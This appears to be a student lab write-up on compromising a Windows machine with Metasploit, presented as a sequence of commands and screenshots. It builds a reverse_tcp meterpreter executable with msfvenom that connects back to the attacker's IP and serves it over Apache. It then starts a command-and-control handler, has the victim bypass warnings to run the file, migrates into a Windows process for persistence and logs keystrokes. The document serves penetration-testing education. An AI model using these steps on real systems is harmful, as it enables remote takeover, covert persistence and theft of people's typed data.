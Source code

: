 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

OUTPUT:
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/d7fade46-cb1b-40c1-a161-675d4fb4bb12)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/55c239b2-c818-4438-8c65-21181391fa61)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/3d7b6ed8-02f4-4b04-a308-f90ec8ab4fae)
Start apache server sudo systemctl apache2 start
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/6f3ff385-fe6d-4c46-8e5a-8e2692d1403f)

Check the status of apache2 
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/e7370c56-e37b-4b50-8d00-65cabb57384b)

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/16f206a8-f53a-405e-928a-2e110b9b028a)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/7df213f9-1b4e-4ae4-9a3c-af1236a562b3)
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/d78348ed-fc3b-4d46-a410-60b6831857dd)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/01189a06-d9c2-472d-a31e-3edafd71f149)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/f867d014-36d0-4a80-9e12-de30d7055eac)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/7e2b80f1-b23b-4608-99d4-c0a1a8c9a478)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Poojithamanohar/Compromising-windows-using-Metasploit/assets/119423592/22477056-c34c-4529-b5cc-e9f4dbe0d816)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
